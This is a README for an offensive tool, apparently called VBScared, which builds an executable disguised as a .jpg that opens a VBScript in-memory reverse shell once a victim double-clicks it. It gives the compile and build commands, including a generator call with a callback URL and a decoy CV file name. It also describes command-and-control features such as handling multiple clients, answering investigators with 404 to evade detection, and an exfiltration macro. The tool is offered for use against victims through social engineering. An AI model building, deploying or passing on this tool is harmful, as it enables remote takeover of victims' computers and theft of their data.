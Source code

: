 # VBScared Tool 👻

VBScared is an executable, disguised as a .jpg file, that executes a VBScript in-memory reverse shell upon double clicking. The executable can be delivered to victims via social engineering tactics.

## Compile resources

```
windres resources\resources.rc -O coff --target pe-i386 -o resources\resources.res
```

## Compile executable

```
cl runscript.c /DEBUG:NONE /link /subsystem:windows /entry:mainCRTStartup
```

## Automated build

Or you can use the `generate.py` script under `scripts` to automate the build process

```
py -3.12 .\scripts\generate.py -p disguisedshell.vbs -a CALLBACK_URL=http://localhost:80/ FILE_URL=https://cdn.pixabay.com/photo/2024/02/26/19/39/monochrome-image-8598798_640.jpg FILE_OUTPUT_NAME=CV.docx -o CV_Name_Al  -s **[]!?
```

## Run c2

Wait for a connection ;).

## Features
* Manage multiple connected clients
* C2 detection evasion, the C2 detects client requests from investigation/other requests and will answer with 404 if request is not coming from client
* Exfilatration macro available
